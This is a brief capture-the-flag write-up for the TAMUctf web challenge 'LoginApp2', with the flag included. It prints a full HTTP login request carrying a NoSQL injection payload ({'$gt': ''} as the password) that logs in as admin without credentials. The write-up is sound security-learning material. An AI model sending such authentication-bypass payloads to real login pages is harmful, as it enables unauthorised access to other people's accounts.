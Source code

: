 ## LoginApp2 - Web

**Challenge:** : [http://web4.tamuctf.com](http://web4.tamuctf.com)
**Difficulty:** medium
**Solved by:** Neolex  

**Solution:**  
This challenge is just an exploitation of a nosql injection on login page.
Here is the request to send :
```
POST /login HTTP/1.1 
Host: web4.tamuctf.com 
Content-Length: 63 
Accept: application/json, text/javascript, _/_; q=0.01 
Origin: [http://web4.tamuctf.com/](http://web4.tamuctf.com/ "http://web4.tamuctf.com/") X-Requested-With: XMLHttpRequest 
User-Agent: Googlebot/2.1 (+[http://www.googlebot.com/bot.html](http://www.googlebot.com/bot.html "http://www.googlebot.com/bot.html")) 
Content-Type: application/json;charset=UTF-8 
Referer: [http://web4.tamuctf.com/](http://web4.tamuctf.com/ "http://web4.tamuctf.com/") 
Accept-Encoding: gzip, deflate 
Accept-Language: en-US,en;q=0.9 
Connection: close 
{ 
	"username": "admin", 
	"password": {"$gt": ""} 
}
```
And we get access to the admin page with the flag : 
![](./images/loginapp2-request.png)
**Flag:**  
gigem{n0_sql?_n0_pr0bl3m_8a8651c31f16f5dea}

